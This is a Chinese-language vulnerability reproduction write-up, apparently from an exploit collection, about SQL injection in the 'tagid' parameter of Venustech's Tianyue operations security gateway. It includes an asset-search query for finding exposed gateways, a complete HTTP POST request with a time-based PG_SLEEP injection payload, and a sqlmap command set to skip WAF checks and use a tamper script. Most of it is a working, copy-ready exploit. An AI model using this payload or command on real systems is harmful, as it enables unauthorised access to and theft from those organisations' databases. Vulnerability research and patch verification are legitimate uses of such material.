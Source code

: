 # 启明星辰天玥运维安全网关tagid参数存在SQL注入漏洞

# 一、漏洞简介
天玥网络安全审计系统是针对业务环境下用户对网络内的核心IT资产和服务器进行的操作行为进行细粒度审计的合规性管理系统。 启明星辰天玥网络安全审计系统tagid参数存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

# 二、影响版本
+ 天玥运维安全网关

# 三、资产测绘
+ hunter`app.name="启明星辰天玥运维安全网关"`
+ 特征

![1695829999514-057a6e65-a46a-4f52-ae75-8e3825de7f26.png](./img/FSinckLrORo2iEIs/1695829999514-057a6e65-a46a-4f52-ae75-8e3825de7f26-527751.png)

# 四、漏洞复现
```plain
POST /ops/index.php?c=Reportguide&a=checkrn HTTP/1.1
Host: xx.xx.xx.xx
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 39


checkname=123&tagid=123 AND 5327=(SELECT 5327 FROM PG_SLEEP(5))-- OkPa
```

![1695830126957-ef52dde0-c4a0-4091-9a31-e48cb5479e62.png](./img/FSinckLrORo2iEIs/1695830126957-ef52dde0-c4a0-4091-9a31-e48cb5479e62-580083.png)

sqlmap 

```plain
sqlmap -u "https://xx.xx.xx.xx/ops/index.php?c=Reportguide&a=checkrn" --data "checkname=123&tagid=123" --skip-waf --random-agent --batch -p tagid  --tamper=space2comment
```

![1695830139590-b1329279-4467-45bf-864d-5c0dce53ffe3.png](./img/FSinckLrORo2iEIs/1695830139590-b1329279-4467-45bf-864d-5c0dce53ffe3-600301.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lli5osp0pzdm1zdo>